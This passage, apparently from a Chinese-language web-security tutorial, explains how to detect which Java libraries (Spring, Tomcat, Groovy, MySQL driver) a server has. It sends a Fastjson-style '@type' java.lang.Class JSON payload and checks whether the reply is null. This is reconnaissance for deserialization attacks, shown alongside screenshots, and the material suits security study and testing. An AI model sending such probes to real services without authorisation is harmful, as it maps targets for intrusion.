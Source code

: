 [![](assets/1706254407-639bbdc31ce205c4084625e9db276e28.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697708543840-a3a99b6c-0b31-4e57-a416-0182b474e51c.png)

## 三、探测服务器环境

## 3.1 空值判断法

待探测列表如下：

```plain
org.springframework.web.bind.annotation.RequestMapping
org.apache.catalina.startup.Tomcat
groovy.lang.GroovyShell
com.mysql.jdbc.Driver
java.net.http.HttpClient
```

`payload34`：

```plain
{"z": {"@type": "java.lang.Class","val": "org.springframework.web.bind.annotation.RequestMapping"}}
```

如果系统存在这个类，会返回一个类实例；如果不存在会返回`null`。  
例如：  
[![](assets/1706254407-755a3ab8069222ab52f0c8f0cebf8f10.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697709092447-0077cd01-74c0-49b6-bf29-bdd4e5997560.png)  
[![](assets/1706254407-2d7cca139d3c6f430dd44ca72e0387e0.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697709524535-60a323c8-ae51-4de2-85ee-1b549fdbc79e.png)
